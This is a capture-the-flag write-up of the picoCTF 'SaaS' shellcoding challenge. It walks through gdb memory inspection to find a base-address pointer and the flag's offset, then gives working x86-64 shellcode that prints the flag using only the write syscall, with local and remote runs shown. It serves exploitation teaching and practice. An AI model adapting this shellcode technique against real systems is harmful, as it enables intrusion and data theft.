

# SaaS

## Description


We are given a challenge binary with the source code. The "service" here is a `Shellcode as a Service`. If we look at the [source](./chall.c) we can summarize the behavior of the application as follows:

- reads in the flag into global memory
- maps a section of memory and gives it `rwx`
- copies some existing shellcode to the mapped memory
- reads user input directly after the existing shellcode
- setup Seccomp to only allow the `write`/`exit` syscalls... we don't care about the `exit`

### shellcode pre-amble 
When we look at the existing shellcode pre-amble we see that it disassembles to:
```json
xor rax, rax
mov rdi, rsp
and rdi, 0xfffffffffffff000
sub rdi, 0x2000
mov rcx, 0x600
rep stosq
xor rbx, rbx
xor rcx, rcx
xor rdx, rdx
xor rsp, rsp
xor rbp, rbp
xor rsi, rsi
xor rdi, rdi
xor r8, r8
xor r9, r9
xor r10, r10
xor r11, r11
xor r12, r12
xor r13, r13
xor r14, r14
xor r15, r15
```

So great. We won't have any existing register values to go off of.

### Experiment a little.

First I created a pwntool script from a template
```
pwn template --host mars.picoctf.net --port 31021 ./chall  > exploit.py
```

This allows me to have everything I need setup really quickly. I can then start debugging with the command:

```
./exploit LOCAL GDB
```

This starts the `chall` process, attaches a GDB instance to it, spawns a new tmux pane, and sets a breakpoint in the start of `main`. 

FYI, I use the following `~/.pwn.conf` configuration:
```ini
[context]
    #randomize=1
    #timeout=60
    terminal = ['tmux', 'splitw', '-h']
```

### memory map:
```python
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00562cd9400000 0x00562cd9402000 0x00000000000000 r-x /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
0x00562cd9601000 0x00562cd9602000 0x00000000001000 r-- /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
0x00562cd9602000 0x00562cd9603000 0x00000000002000 rw- /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
0x00562cda7d8000 0x00562cda7f9000 0x00000000000000 rw- [heap]
0x007fd853626000 0x007fd853629000 0x00000000000000 rw-
0x007fd853629000 0x007fd85364b000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007fd85364b000 0x007fd8537c3000 0x00000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007fd8537c3000 0x007fd853811000 0x0000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007fd853811000 0x007fd853815000 0x000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007fd853815000 0x007fd853817000 0x000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007fd853817000 0x007fd85381b000 0x00000000000000 rw-
0x007fd85381b000 0x007fd85381d000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85381d000 0x007fd85382c000 0x00000000002000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85382c000 0x007fd85383a000 0x00000000011000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85383a000 0x007fd85383b000 0x0000000001f000 --- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85383b000 0x007fd85383c000 0x0000000001f000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85383c000 0x007fd85383d000 0x00000000020000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x007fd85383d000 0x007fd85383f000 0x00000000000000 rw-
0x007fd853853000 0x007fd853854000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd853854000 0x007fd853877000 0x00000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd853877000 0x007fd85387f000 0x00000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd85387f000 0x007fd853880000 0x00000000000000 rwx
0x007fd853880000 0x007fd853881000 0x0000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd853881000 0x007fd853882000 0x0000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd853882000 0x007fd853883000 0x00000000000000 rw-
0x007fffe6463000 0x007fffe6484000 0x00000000000000 rw- [stack]
0x007fffe6502000 0x007fffe6506000 0x00000000000000 r-- [vvar]
0x007fffe6506000 0x007fffe6508000 0x00000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```

If can quickly set a breakpoint right before we jump to the `shellcode` by updating the script to do:
```python
gdbscript = '''
break *main+186
continue
'''.format(**locals())
```

And if we then step into the first instruction we can see our first instruction is at the following offset.
```python
b *$rip+0x4b
```
We can then break there and see what the state of our registers is:

```python
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x0
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x0
$rip   : 0x007fd85387f04b  →  0x48ffffffae058d48
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x0
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

Not great, but we do have `rip` because you can't erase that.

### Finding something useful.

From the memory map we know we have our mapped memory and we can follow that contiguous memory to a region where there should be pointers to memory we're interested in. We're wanting to get to that global variable that holds the FLAG!

So we look at what's writable after/before our current position:
```python
0x007fd85387f000 0x007fd853880000 0x00000000000000 rwx
0x007fd853880000 0x007fd853881000 0x0000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007fd853881000 0x007fd853882000 0x0000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
```

`0x007fd853881000` looks like a prime area to look at... remember we want to look for anything that looks like it's in this range:
```python
0x00562cd9400000 0x00562cd9402000 0x00000000000000 r-x /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
0x00562cd9601000 0x00562cd9602000 0x00000000001000 r-- /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
0x00562cd9602000 0x00562cd9603000 0x00000000002000 rw- /home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall
```

So let's start looking!
```python
gef➤  telescope 0x007fd853881000
0x007fd853881000│+0x0000: 0x000000000002de68
0x007fd853881008│+0x0008: 0x0000000000000000
0x007fd853881010│+0x0010: 0x0000000000000000
0x007fd853881018│+0x0018: 0x007fd8537898a0  →  <_dl_catch_exception+0> endbr64
0x007fd853881020│+0x0020: 0x007fd8536c30e0  →  <malloc+0> endbr64
0x007fd853881028│+0x0028: 0x007fd8537897f0  →  <_dl_signal_exception+0> endbr64
0x007fd853881030│+0x0030: 0x007fd8536c4b10  →  <calloc+0> endbr64
0x007fd853881038│+0x0038: 0x007fd8536c3e80  →  <realloc+0> endbr64
0x007fd853881040│+0x0040: 0x007fd853789840  →  <_dl_signal_error+0> endbr64
0x007fd853881048│+0x0048: 0x007fd8537899c0  →  <_dl_catch_error+0> endbr64
gef➤
0x007fd853881050│+0x0050: 0x0000000000000000
0x007fd853881058│+0x0058: 0x0000000000000000
0x007fd853881060│+0x0060: 0x007fd853882190  →  0x00562cd9400000  →   jg 0x562cd9400047
0x007fd853881068│+0x0068: 0x0000000000000005
0x007fd853881070│+0x0070: 0x007fd853882450  →  0x007fd85383da58  →  0x007fd853882190  →  0x00562cd9400000  →   jg 0x562cd9400047
0x007fd853881078│+0x0078: 0x0000000000000000
0x007fd853881080│+0x0080: 0x0000000000000000
0x007fd853881088│+0x0088: 0x0000000000000000
0x007fd853881090│+0x0090: 0x0000000000000001
0x007fd853881098│+0x0098: 0x0000000000000000
gef➤
```
Well that didn't take long. We have see what looks like a pointer to the base of our executable!

```python
0x007fd853881060│+0x0060: 0x007fd853882190  →  0x00562cd9400000  
```

Great, so lets calulate an offset:
```python
hex(0x007fd853882190 - 0x007fd85387f000)
0x3190
```

### Find the flag string offset:

We're going to be looking in the `rw` area for our flag.
```python
gef➤  telescope 0x00562cd9602000
0x00562cd9602000│+0x0000: <data_start+0> add BYTE PTR [rax], al
0x00562cd9602008│+0x0008: 0x00562cd9602008  →  [loop detected]
0x00562cd9602010│+0x0010:  add BYTE PTR [rax], al
0x00562cd9602018│+0x0018:  add BYTE PTR [rax], al
0x00562cd9602020│+0x0020: 0x007fd8538166a0  →  0x00000000fbad2887
0x00562cd9602028│+0x0028:  add BYTE PTR [rax], al
0x00562cd9602030│+0x0030: 0x007fd853815980  →  0x00000000fbad208b
0x00562cd9602038│+0x0038:  add BYTE PTR [rax], al
0x00562cd9602040│+0x0040: 0x007fd8538165c0  →  0x00000000fbad2087
0x00562cd9602048│+0x0048: <completed+0> add BYTE PTR [rax], al
gef➤
0x00562cd9602050│+0x0050:  add BYTE PTR [rax], al
0x00562cd9602058│+0x0058:  add BYTE PTR [rax], al
0x00562cd9602060│+0x0060: "fakeflag\n"
0x00562cd9602068│+0x0068: 0x0000000000000a ("\n"?)
0x00562cd9602070│+0x0070: <flag+16> add BYTE PTR [rax], al
0x00562cd9602078│+0x0078: <flag+24> add BYTE PTR [rax], al
0x00562cd9602080│+0x0080: <flag+32> add BYTE PTR [rax], al
0x00562cd9602088│+0x0088: <flag+40> add BYTE PTR [rax], al
0x00562cd9602090│+0x0090: <flag+48> add BYTE PTR [rax], al
0x00562cd9602098│+0x0098: <flag+56> add BYTE PTR [rax], al
```

Awesome! so we know we have an offset of `0x202060` from the base address to get our Flag string.

### Writing our shellcode:
```python
  lea rax, [rip-0x52] # Use RIP to load the base map area address into rax
  add rax, 0x3190     # Add our offset to get the pointer to our ELF execution base
  mov rsi, [rax]      # Load that to RSI
  add rsi, 0x202060   # Add the offset to our Flag string
  mov rax, SYS_write  # Load syscall write to RAX
  mov rdi, 1          # Load STDOUT (1) to RDI
  mov rdx, 100        # Load 100 bytes as the size to RDX
  syscall             # Trigger a syscall!
  nop
  nop
```

Obviously there was some local trial and error to load the right offsets etc... but all in all it was pretty fast and fun. 

Then to execute it locally:
```python
$ ./exploit.py LOCAL
[*] '/home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall': pid 2892722
./exploit.py:73: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('Service!')
[*] Switching to interactive mode

fakeflag
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

So we got our local fake flag,  lets run it agains the remote server:

```python
$ ./exploit.py REMOTE
...
picoCTF{f0ll0w_th3_m4p_t0_g3t_xxx_xxxx}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

### Summary

All in all a nice shellcoding challenge to get back in the swing of things. Hopefully this step by step helps someone get up to speed as well.

